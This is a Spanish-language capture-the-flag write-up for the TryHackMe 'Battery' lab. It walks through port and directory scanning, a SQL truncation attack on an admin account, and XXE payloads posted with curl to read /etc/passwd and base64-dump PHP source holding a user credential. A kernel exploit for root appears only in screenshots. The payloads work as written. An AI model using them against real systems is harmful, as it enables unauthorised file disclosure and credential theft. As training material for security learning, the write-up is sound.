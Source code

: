 # CTF TryHackme Baterry
![Screenshot from 2021-02-21 20-32-32](/assets/Screenshot%20from%202021-02-21%2020-32-32.png)


## Escaneando puertos 
Escaneo basico de puertos
**nmap -T5 -n -sV -F -v -oN nmap.init 10.10.70.121**
```
# Nmap 7.91 scan initiated Sun Feb 21 22:27:25 2021 as: nmap -T5 -n -sV -F -v -oN nmap.init 10.10.70.121
Nmap scan report for 10.10.70.121
Host is up (0.18s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 21 22:27:35 2021 -- 1 IP address (1 host up) scanned in 10.20 seconds
```

Enumerando los directorios:

Se utilizo la heramienta dirbuster y el reporte obtenido fue: 

```
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Sun Feb 21 22:55:04 VET 2021
--------------------------------

http://10.10.70.121:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/
/scripts/
/scripts/ie/
/admin.php/

Dirs found with a 403 response:

/.hta/
/.htaccess/
/.htpasswd/
/scripts/.hta/
/scripts/.htaccess/
/scripts/.htpasswd/
/icons/
/scripts/ie/.hta/
/scripts/ie/.htaccess/
/scripts/ie/.htpasswd/
/icons/.hta/
/icons/.htaccess/
/icons/.htpasswd/
/server-status/
/icons/small/
/icons/small/.htpasswd/
/icons/small/.hta/
/icons/small/.htaccess/


--------------------------------
Files found during testing:

Files found with a 403 responce:

/.htaccess.php
/.hta.php
/.htpasswd.php
/.hta
/.htaccess
/.htpasswd
/scripts/.hta.php
/scripts/.htaccess.php
/scripts/.htpasswd.php
/scripts/.hta
/scripts/.htaccess
/scripts/.htpasswd
/scripts/ie/.hta
/scripts/ie/.htaccess
/scripts/ie/.htpasswd
/scripts/ie/.hta.php
/icons/.hta
/icons/.htaccess
/scripts/ie/.htaccess.php
/icons/.htpasswd
/scripts/ie/.htpasswd.php
/icons/.htaccess.php
/icons/.hta.php
/icons/.htpasswd.php
/server-status
/icons/small/.hta.php
/icons/small/.hta
/icons/small/.htaccess
/icons/small/.htaccess.php
/icons/small/.htpasswd
/icons/small/.htpasswd.php

Files found with a 200 responce:

/acc.php
/admin.php
/forms.php
/register.php
/scripts/jquery.min.js
/scripts/jquery-mobilemenu.min.js
/scripts/jquery.1.9.0.min.js
/index.html
/scripts/ie/index.html
/report
/icons/README

Files found with a 302 responce:

/dashboard.php
/depo.php
/with.php
/tra.php
/logout.php

Files found with a 301 responce:

/scripts/ie
/scripts
/icons/small


--------------------------------
```


La página interesane fue **/admin.php** y **/report**

- /report tenia un binario con posibles nombres de usuario.

![Screenshot from 2021-02-21 21-54-28](/assets/Screenshot%20from%202021-02-21%2021-54-28.png)


- /admin.php tiene un formaulario de registro 


### Explotación

SQL trucation atack.

Con este se obtivieron las credenciales de la cuenta **admin@bank.a** con lo cual logramos entrar a las partes de admin del sistema.


Encontramos una peticion con xml en la página forms.php 

![Screenshot from 2021-02-21 22-56-08](/assets/Screenshot%20from%202021-02-21%2022-56-08.png)

Enviando intentando hacer un **XXE** en la página: forms.php

**$curl -H "Content-Type: text/xml" -d @req.xml --cookie "PHPSESSID=jtqp2u2llg197f1daork8mda76" -X POST http://10.10.70.121/forms.php**

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE data [
<!ELEMENT root ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<root> 
<name>2</name> 
<search>&file;</search> 
</root>
```

Obteniendo los contenidos de los archivos .php del sitio

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE data [
<!ELEMENT root ANY>
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
]>
<root> 
<name>2</name> 
<search>&file;</search> 
</root>
```


En el archivo **acc.php** encontramos una credencial del usuario cyber.


```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE data [
<!ELEMENT root ANY>
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=acc.php">
]>
<root> 
<name>2</name> 
<search>&file;</search> 
</root>
```

```bash
curl -H "Content-Type: text/xml" -d @req.xml --cookie "PHPSESSID=td59le73l18krlmepvtt8kojv5" -X POST http://10.10.232.244/forms.php
```
Resultado de la ejecución fue:
![Screenshot from 2021-02-22 22-09-07](/assets/Screenshot%20from%202021-02-22%2022-09-07.png)


Decodificando el base64
![Screenshot from 2021-02-22 22-11-33](/assets/Screenshot%20from%202021-02-22%2022-11-33.png)

Obtenemos la credencial

![Selection_010](/assets/Selection_010.png)


### Escalamiento de privilegios 

Realizando una inspeccion básica se encontro lo siguiente:
- Permisos de root en el ejecutable run.py
![Screenshot from 2021-02-22 22-16-35](/assets/Screenshot%20from%202021-02-22%2022-16-35.png)
- Kernel muy viejo con explotación directa
![Screenshot from 2021-02-22 22-17-23](/assets/Screenshot%20from%202021-02-22%2022-17-23.png)

## Explotando el kernel 3.13.0-32

Compilando el exploit y obteniendo la shell de super usuario.
![Screenshot from 2021-02-22 22-19-41](/assets/Screenshot%20from%202021-02-22%2022-19-41.png)

Maquina rooteada =).










